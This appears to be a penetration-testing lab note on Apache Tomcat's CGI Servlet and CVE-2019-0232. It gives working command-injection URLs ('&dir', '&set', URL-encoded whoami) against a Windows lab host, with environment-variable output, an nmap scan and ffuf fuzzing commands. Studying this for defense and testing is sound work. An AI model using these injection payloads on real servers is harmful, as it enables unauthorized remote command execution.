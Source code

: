 # Tomcat CGI

The CGI Servlet in Apache Tomcat helps web servers talk to programs outside the Tomcat environment. These external programs are usually CGI scripts in languages like Perl, Python, or Bash. The CGI Servlet takes requests from web browsers and sends them to these scripts for processing. Essentially, it allows web servers, like Apache2, to run external applications following the CGI standard and acts as a link between web servers and external data sources, like databases.



### Vulnerabilities&#x20;

there are a number of known vulnerabilities like CVE-2019-0232 that can result in RCE.&#x20;

#### CVE-2019-0232

the enabledCmdLineArguments setting for Tomcat CGI, when enabled, determines if command line arguments are created from the received query string. the servlet parses the query string and sends it to the CGI script as arguments.&#x20;

For example, the arguement in these calls are used to switch between the scripts actions:

```
http://example.com/cgi-bin/booksearch.cgi?action=title&query=the+great+gatsby

http://example.com/cgi-bin/booksearch.cgi?action=author&query=fitzgerald
```

When enableCmdLineArguements is enabled on a windows server - the servlet doesnt poperly validate input from the web browser before passing it to the script. this can then be used to perform a command injection.

For instance, an attacker can append `dir` to a valid command using `&` as a separator to execute `dir` on a Windows system. If the attacker controls the input to a CGI script that uses this command, they can inject their own commands after `&` to execute any command on the server. An example of this is `http://example.com/cgi-bin/hello.bat?&dir`

**if commands like whoami are not working - the path might not be set:**

Retrieve a list of environmental variables by calling the `set` command:

```http
# http://10.129.204.227:8080/cgi/welcome.bat?&set

Welcome to CGI, this section is not functional yet. Please return to home page.
AUTH_TYPE=
COMSPEC=C:\Windows\system32\cmd.exe
CONTENT_LENGTH=
CONTENT_TYPE=
GATEWAY_INTERFACE=CGI/1.1
HTTP_ACCEPT=text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
HTTP_ACCEPT_ENCODING=gzip, deflate
HTTP_ACCEPT_LANGUAGE=en-US,en;q=0.5
HTTP_HOST=10.129.204.227:8080
HTTP_USER_AGENT=Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.JS;.WS;.MSC
PATH_INFO=
PROMPT=$P$G
QUERY_STRING=&set
REMOTE_ADDR=10.10.14.58
REMOTE_HOST=10.10.14.58
REMOTE_IDENT=
REMOTE_USER=
REQUEST_METHOD=GET
REQUEST_URI=/cgi/welcome.bat
SCRIPT_FILENAME=C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi\welcome.bat
SCRIPT_NAME=/cgi/welcome.bat
SERVER_NAME=10.129.204.227
SERVER_PORT=8080
SERVER_PROTOCOL=HTTP/1.1
SERVER_SOFTWARE=TOMCAT
SystemRoot=C:\Windows
X_TOMCAT_SCRIPT_PATH=C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi\welcome.bat
```

URL encode your payload if the command has a space or special characters:

```
http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```

### Enumeration

Look for tomcat:&#x20;

```shell-session
Adam-162@htb[/htb]$ nmap -p- -sC -Pn 10.129.204.227 --open 

Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-23 13:57 SAST
Nmap scan report for 10.129.204.227
Host is up (0.17s latency).
Not shown: 63648 closed tcp ports (conn-refused), 1873 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
22/tcp    open  ssh
| ssh-hostkey: 
|   2048 ae19ae07ef79b7905f1a7b8d42d56099 (RSA)
|   256 382e76cd0594a6e717d1808165262544 (ECDSA)
|_  256 35096912230f11bc546fddf797bd6150 (ED25519)
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
8009/tcp  open  ajp13
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp  open  http-proxy
|_http-title: Apache Tomcat/9.0.17
|_http-favicon: Apache Tomcat
47001/tcp open  winrm

Host script results:
| smb2-time: 
|   date: 2023-03-23T11:58:42
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Nmap done: 1 IP address (1 host up) scanned in 165.25 seconds
```

### Finding CGI scripts&#x20;

we can use FFUF on the /cgi directory to locate sgi scripts we can try to exploit:&#x20;

```shell-session
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.cmd
```

Its also important to fuzz for other extensions:

```shell-session
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat
```
